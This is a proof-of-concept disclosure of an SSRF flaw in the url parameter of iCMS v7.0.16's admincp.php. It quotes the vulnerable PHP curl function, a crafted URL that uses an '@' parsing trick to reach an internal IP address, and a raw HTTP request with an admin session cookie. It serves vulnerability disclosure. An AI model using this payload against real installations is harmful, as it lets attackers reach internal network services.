

# PoC

There is a SSRF vulnerability in the url parameter of the admincp.php interface in iCMS-v7.0.16
```
app\spider\spider_tools.class.php

public static function remote($url,$ref=null,$_count = 0) {
        if(self::safe_url($url)===false) return false;

        (iPHP_SHELL && self::$debug) && print self::datetime()."\033[36mspider_tools::remote\033[0m [".($_count+1)."] => ".$url.PHP_EOL;

        $parsed = parse_url($url);
        $url = str_replace('&amp;', '&', $url);
        if(empty(spider::$referer)){
            spider::$referer = $parsed['scheme'] . '://' . $parsed['host'];
        }

        $options = array(
            CURLOPT_URL                  => $url,
            CURLOPT_REFERER              => self::$CURLOPT_REFERER?self::$CURLOPT_REFERER:spider::$referer,
            CURLOPT_USERAGENT            => self::$CURLOPT_USERAGENT?self::$CURLOPT_USERAGENT:spider::$useragent,
            CURLOPT_ENCODING             => self::$CURLOPT_ENCODING?self::$CURLOPT_ENCODING:spider::$encoding,
            CURLOPT_TIMEOUT              => self::$CURLOPT_TIMEOUT,
            CURLOPT_CONNECTTIMEOUT       => self::$CURLOPT_CONNECTTIMEOUT,
            CURLOPT_RETURNTRANSFER       => 1,
            CURLOPT_FAILONERROR          => 0,
            CURLOPT_HEADER               => 0,
            CURLOPT_NOSIGNAL             => true,
            // CURLOPT_DNS_USE_GLOBAL_CACHE => true,
            // CURLOPT_DNS_CACHE_TIMEOUT    => 86400,
            CURLOPT_SSL_VERIFYPEER       => false,
            CURLOPT_SSL_VERIFYHOST       => false
            // CURLOPT_FOLLOWLOCATION => 1,// 使用自动跳转
            // CURLOPT_MAXREDIRS => 7,//查找次数，防止查找太深
        );
        ...
```

#### http://xxxx/admincp.php?app=spider_project&do=test&url=http://m09ic@192.168.156.136:80@baidu.com/&rid=2&pid=1&title=

```
GET c HTTP/1.1
Host: 192.168.156.136:88
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
Cookie: iCMS_ADMIN_AUTH=b5e13749p_MURGBi7YR3-HetWrkTTKq1pTW78-1apE9T74fye8D9Ticl-PqpZ5raVcOeex3BRI6jYetvGYFegWP00Gv1a4Q2a_RIxQi81T1HtLgYm00OzJzHEb-pVQ
Connection: close


```



#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao en-ze wang lin-jie wu